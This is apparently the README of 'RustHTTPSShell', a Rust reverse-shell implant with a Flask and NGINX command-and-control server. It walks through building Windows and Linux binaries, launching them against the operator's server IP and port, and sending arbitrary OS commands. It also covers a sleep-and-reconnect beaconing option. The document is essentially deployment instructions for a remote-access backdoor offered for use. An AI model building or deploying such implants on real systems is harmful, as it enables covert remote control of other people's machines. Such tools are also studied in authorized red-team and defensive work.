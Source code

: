# RustHTTPSShell

Tested docker build in kali.

Requirements and preperation:
------------------
1. NGINX on the host: https://nginx.org/en/linux_packages.html 
2. python3 and venv on the host: https://virtualenv.pypa.io/en/latest/installation.html 
3. Back up the existing nginx.conf file.
4. Move the nginx.conf file from this repo into /etc/nginx/nginx.conf.
5. Create a key and certificate:
It's generally recommended to avoid self-signed certificates. Only do this for using in a test environment.
```
openssl req -x509 -out server.pem -keyout server.pem -newkey rsa:4096 -nodes -sha256
```
6. Place the pem file in /etc/nginx/cert/server.pem.
7. Create a virtual environment for the C2 server:
```
mkdir controlServer
mv app.py controlServer/
python3 -m venv controlServer
cd controlServer
source bin/activate
pip3 install colorama flask
flask run
```

Setup:
----
1. Run docker build in directory with Dockerfile:
```
docker build .
```
2. Run container (use -v flag to mount directories as desired):
```
docker run -di [imageID]
```
3. Enter container:
```
docker exec -ti [containerID] /bin/bash
```
4. From within container, Clone repo:
```
git clone https://github.com/Business1sg00d/RustHTTPSShell.git /opt/RustHTTPSShell
cd /opt/RustHTTPSShell
```
5. From within container, add windows support:
```
rustup target add x86_64-pc-windows-gnu
```
6. If you want to change the sleep time in seconds, go into the .rs files and change the following parameters:
```
alarmClock::standBy(int)
```
Replace the "int" with whatever time you want. This will tell the shell to sleep for those seconds. Command explanation further below.

Building from within container:
-----
When building for windows use:
```
cargo build --target x86_64-pc-windows-gnu --bin main_windows
```

For linux use:
```
cargo build
```

Binaries are in "target" directory from within project directory

Usage:
--
For both Windows and Linux version:
```
.\binary.exe [Your_Server_IP] [Your_Server_port}
./binary [Your_Server_IP] [Your_Server_port}
```

You should see a prompt in the flask server terminal. It expects the following options:
```
"Enter initialization option: "

Enter "1" to begin typing arbitrary OS commands such as "dir" or "powershell Get-Service".
Enter "2" to end the session and tell the shell to "sleep". After the time expires, the shell will attempt to reconnect to your server.
```

When entering "1" to get the command, you should see the following:
```
Enter command: 
```

You can also enter "2" in this "Enter command: " state that will sleep like explained above.

